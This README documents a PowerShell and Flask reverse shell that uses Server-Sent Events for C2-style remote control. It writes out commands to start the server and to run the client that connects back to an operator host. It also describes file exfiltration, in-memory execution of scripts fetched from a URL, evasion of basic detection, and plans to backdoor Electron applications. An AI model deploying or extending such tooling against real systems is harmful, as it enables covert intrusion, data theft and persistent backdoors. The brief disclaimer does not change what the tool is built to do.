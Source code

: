 # SSE Reverse Shell – Enhanced Interactive Shell with Modern Features

This project showcases an advanced reverse shell built using native PowerShell and Server-Sent Events (SSE). It leverages a persistent HTTP connection to enable real-time communication between the server and clients, with a modern and interactive web-based interface for command execution and response visualization.

This project was inspired by Poc released by TNCX-byte => https://github.com/TNCX-byte/PS_SSE_Shell
So I wanted to test the protocol and the interaction of implementing c2-like functionnalities in SSE. The project is in development and will change in futur. I think it will be implemented in my C2 Project RatShell...

Unlike traditional reverse shells, this implementation focuses on flexibility, interactivity, and stealth by using:
- Native PowerShell for the client
- SSE for real-time command streaming
- A web-based terminal for seamless interaction
- Memory-resident execution with minimal footprint

## Key Features

- **Interactive Web Terminal**: A modern, matrix-inspired web interface for sending commands and viewing responses in real-time.
- **Command Execution**: Supports both general commands and specific operations like file upload/download and script injection.
- **Real-Time Communication**: Uses SSE for persistent connections and HTTP POST for sending responses.
- **Chunked Response Handling**: Handles large command outputs by splitting them into manageable chunks for reliable transmission.
- **Cross-Platform Compatibility**: Works seamlessly with PowerShell clients on Windows and a Flask-based server on Linux.
- **Stealth and Flexibility**: Minimal network noise and memory-resident execution to bypass basic detection mechanisms.

## Components

### SSE Server
The server is built using Flask and provides the following endpoints:
- `/rsse`: Streams commands to connected clients via SSE.
- `/post`: Receives command outputs from clients.
- `/upload`: Handles file uploads from clients.
- `/download`: Allows clients to download files from the server.
- `/responses`: Streams client responses to the web-based terminal.

### SSE Client
The client is a PowerShell script that:
- Connects to the server's `/rsse` endpoint to receive commands.
- Executes commands locally and sends results back to the server via `/post`.
- Supports additional operations like file upload/download and script injection.

### Web Interface
The web-based terminal provides:
- A real-time command execution interface.
- Automatic scrolling and response handling for seamless interaction.
- For now it's just a Poc and is relased as-is... so you can expect bugs :)

## Usage

### Server
1. Start the Flask server:
   ```bash
   python3 SSE-Server.py
   ```

2. wait for incoming client connection from terminal and you can execute commands directly in it.

2 (optional). Access the web interface:
   - Open a browser and navigate to `http://<server-ip>:8085`.

### Client
1. Run the PowerShell client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```

### Commands
- **General Commands**: Execute any PowerShell command (e.g., `dir`, `Get-Process`, `whoami`).
- **File Upload**: Upload a file from the client to the server:
  ```
  download <file-path>
  ```
- **File Download**: Download a file from the server to the client:
  ```
  upload <file-name>
  ```
- **Script Injection**: Inject and execute a script from a URL:
  ```
  inject <url>
  ```

## Features in Detail

### Real-Time Command Execution
- Commands are sent from the web terminal or server terminal to connected clients.
- Responses are streamed back in real-time and displayed in both the server terminal and the web interface.

### File Operations
- **Upload**: Clients can upload files to the server's `uploads` directory.
- **Download**: Clients can download files from the server's `Downloads` directory.

### Script Injection
- Execute remote scripts by providing a URL. The script is fetched, executed in memory, and the output is sent back to the server.

### Chunked Response Handling
- Large command outputs (e.g., `dir` or `Get-Process`) are split into chunks and sent to the server to ensure reliable transmission.

### Web Interface
- Real-time updates with automatic scrolling for seamless interaction.
- Displays both commands and responses in a structured format.

## Example Workflow

1. Start the server:
   ```bash
   python3 SSE-Server.py
   ```
2. Connect a client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```
3. Open the web interface and send a command:
   - Example: `whoami`
4. View the response in real-time in the terminal.

This tool is released As-Is and you can expect bugs, it's just a Poc for now to test SSE protocols interaction & implementation. If it can be interesting for everyone, no problem. It will may be used for futur implemetations in other tools like my C2 I'm developping or other one...
You can find also 2 .js client in SSE_E-Client folder, thes 2 clients can be used to backdoor electron applications with another tool I'm developping right now I will release next few days ;). So stay connected to my github !!

## Disclaimer

This tool is for educational and research purposes only.  
Do not use this on networks or systems you do not own or have explicit permission to test.

## NoLicense

Author: 4rt3f4kt